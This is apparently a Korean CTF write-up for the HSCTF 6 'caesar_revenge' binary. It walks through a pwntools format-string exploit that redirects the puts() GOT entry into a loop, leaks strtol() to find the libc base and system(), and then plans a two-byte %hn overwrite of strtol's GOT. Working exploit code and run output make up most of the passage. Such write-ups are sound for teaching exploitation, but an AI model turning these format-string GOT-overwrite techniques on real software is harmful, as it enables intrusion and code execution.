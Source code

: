 ```python
payload = payload.ljust(16, ' ')
payload += p64(addr_puts_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

# libc leak
payload = "%25$s".ljust(8, ' ')
payload += p64(addr_strtol_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

p.recvuntil("Result: ")
addr_strtol = u64(p.recv(6).ljust(8, '\x00')) # address of strtol()
log.info("address of strtol(): " + hex(addr_strtol) + ", " + str(addr_strtol))
addr_libc = addr_strtol - offset_strtol # address of libc base
log.info("address of libc base: " + hex(addr_libc) + ", " + str(addr_libc))
addr_system = addr_libc + offset_system # address of system()
log.info("address of system(): " + hex(addr_system) + ", " + str(addr_system))

pause()
```

간단하게 릭을 수행할 수 있다. 딱히 설명할 건 없을 것 같다. 실행 결과는 다음과 같다.

```bash
$ python exploit_caesar_revenge.py
[*] '/home/cappit/HSCTF 6/caesar_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './caesar_revenge': pid 2841
[*] address of strtol(): 0x7f919f63e110, 140263421108496
[*] address of libc base: 0x7f919f5f9000, 140263420825600
[*] address of system(): 0x7f919f648440, 140263421150272
[*] Paused (press any to continue)
```

---

이번에는 `strtol()`의 GOT에 `system()`의 주소를 넣을 것이다. 위의 결과를 보면, 두 함수의 주소의 앞의 2바이트는 다를 수 없기 때문에 뒤의 4바이트만 바꿔 주면 된다. 4바이트를 한번에 쓰면 상당히 비효율적이므로 2바이트씩 나눠서 쓰자. `%hn`을 사용하면 2바이트 공간에 값을 쓸 수 있다.

```python
# exploit_caesar_revenge.py

from pwn import *

e = ELF("./caesar_revenge")

addr_puts_got = e.got["puts"] # GOT address of puts()
addr_strtol_got = e.got["strtol"] # GOT address of strtol()
addr_caesar = 0x401196 # address of caesar()
offset_strtol = 0x45110 # offset of strtol() from libc base
offset_system = 0x4f440 # offset of system() from libc base

p = process("./caesar_revenge")

# make loop
payload = "%" + str(addr_caesar) + "x%26$ln"
payload = payload.ljust(16, ' ')
payload += p64(addr_puts_got)

```